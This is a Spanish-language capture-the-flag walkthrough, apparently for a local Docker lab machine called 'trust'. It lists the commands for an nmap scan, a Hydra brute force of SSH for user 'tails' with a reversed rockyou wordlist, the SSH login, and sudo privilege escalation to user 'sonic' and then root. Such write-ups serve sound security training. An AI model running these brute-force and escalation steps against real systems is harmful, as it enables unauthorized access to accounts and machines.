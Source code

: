Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250131113855](https://github.com/user-attachments/assets/4fe3d5f0-464b-4fdb-9b19-4d0f2b5507cc)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131113958](https://github.com/user-attachments/assets/4ece6712-2584-435b-9cef-e1e0ee99082a)

Nos metemos en la web:

![Pasted image 20250131114033](https://github.com/user-attachments/assets/93f8f640-8c53-4248-b61d-55606e2752b2)

Tenemos usuario tails.

Invertimos el diccionario ya que con **Hydra** tarda mucho:

```Bash
tac /usr/share/wordlists/rockyou.txt >> invertido.txt
```

![Pasted image 20250131151102](https://github.com/user-attachments/assets/6bc9ecc5-06d9-4ffa-a454-1bb370a9c70f)

Quitamos los espacios en blanco:

```Bash
sed -i 's/ //g' invertido.txt
```

![Pasted image 20250131153909](https://github.com/user-attachments/assets/dbf7552f-eee5-40d6-b68e-54915315d840)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l tails -P invertido.txt ssh://172.17.0.2
```

![Pasted image 20250131153842](https://github.com/user-attachments/assets/45d4ec3c-1498-4b29-a13d-2e09d42c8a92)

Nos conectamos con **SSH**:

```Bash
ssh tails@172.17.0.2
```

![Pasted image 20250131153704](https://github.com/user-attachments/assets/842703b1-f2e5-425a-8971-704541705cfb)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250131153722](https://github.com/user-attachments/assets/84dc0568-de16-41c8-a26e-5ab99d510fd9)

```Bash
sudo -u sonic /bin/bash
```

![Pasted image 20250131154316](https://github.com/user-attachments/assets/768340fc-93e5-4d63-b657-0d617fbf12f5)

```Bash
sudo -l
```

![Pasted image 20250131154330](https://github.com/user-attachments/assets/556c3982-535f-47eb-8eaf-576c24c84660)

```Bash
sudo su
```

![Pasted image 20250131154531](https://github.com/user-attachments/assets/d26f225a-918c-4d82-be5d-f6002e9c7119)

o también

```Bash
sudo -i
```

![Pasted image 20250131154413](https://github.com/user-attachments/assets/7f8a82d4-ac20-4ab8-adc8-b8a515623106)

```Bash
whoami
```

![Pasted image 20250131154558](https://github.com/user-attachments/assets/4dfda7ed-920f-4e35-82f4-f94d854f8066)
